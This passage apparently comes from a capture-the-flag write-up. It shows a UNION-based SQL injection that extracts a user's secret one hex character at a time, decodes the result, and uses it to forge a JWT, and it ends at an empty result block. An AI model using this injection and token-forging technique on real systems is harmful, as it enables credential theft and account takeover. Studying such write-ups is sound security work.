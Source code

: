 This works -- While python isn't converting it from HEX to INT, the hex value of 0x41 is in fact 'A'.  Now we need to use this to select one character at a time from the SECRET column for the user and keep a list of all the values that are returned.

Our new query now looks like this:
```sql
'AND 0 UNION SELECT 1,2,3,HEX(SUBSTR(secret,1,1)) FROM Accounts WHERE userName = 'ProfuseHunter'--
```

![](/T7/Files/Pasted%20image%2020221117213317.png)

Lo-and-behold!  The first character of the secret for ProfuseHunter! ...now to repeat this process until we get an error - Increasing the SUBSTR params from 1,1 > 2,2 > 3,3 etc... until nothing returns or we get an error.

This definitely took a while... but thankfully it was only 32 characters long.  Our list of hex values appear to be as such:
```
34 36 69 75 50 43 74 75 4a 6a 6d 73 4a 47 57 52 79 46 57 6e 61 72 50 46 6a 57 36 59 6c 61 77 79
```
And if we convert these values from Hex to ASCII, we end up with:
```
46iuPCtuJjmsJGWRyFWnarPFjW6Ylawy
```
Now we finally have our SEC and UID values to generate a new Token!  Let's head over to https://jwt.io/ and plug in the new values:

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "iat": 1667260800,
  "exp": 1669852800,
  "sec": "46iuPCtuJjmsJGWRyFWnarPFjW6Ylawy",
  "uid": 12344
}

{
  "hmac":"BCUr5gSMv88JvPqFcbakMK3iSJSiV7LS"
}
```
```
Result:
```